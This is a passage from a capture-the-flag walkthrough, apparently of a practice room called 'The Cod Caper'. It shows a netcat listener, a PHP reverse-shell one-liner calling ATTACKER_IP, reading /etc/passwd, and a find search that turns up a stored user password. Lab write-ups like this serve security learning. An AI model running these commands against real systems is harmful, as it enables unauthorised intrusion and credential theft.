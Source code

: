 Looks like a place where we can run shell commands!

The room states that there are two possible ways to exploit this: **Setting up a reverse shell**, or using the `find` command to find hidden password files within the system. Personally, I will be trying to set up a reverse shell.

First, we set up a **netcat** listener on our localhost using `nc -lvnp 1234`.

Next, following an online [reverse-shell cheatsheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/), we run the following command:

 ```
 php -r '$sock=fsockopen("ATTACKER_IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
 ```

This will use PHP to open a reverse shell back to us:

![screenshot7](../assets/images/the_cod_caper/screenshot7.png)

And with that, we're now in the target machine!

A simple `cat /etc/passwd` tells us that pingu has an account on the machine. 

Using the `find` command, I tried searching for any password files in the machine:

```
find -name pass -type f
```

The search results shows that there was a password file located in **/var/hidden/pass**. Fortunately for us, the file contains pingu's password: **pinguapingu**

We can now log into pingu's account:

![screenshot10](../assets/images/the_cod_caper/screenshot10.png)

Next, we'll be using [LinEnum](https://github.com/rebootuser/LinEnum) to automate the process of privilege escalation enumeration. 
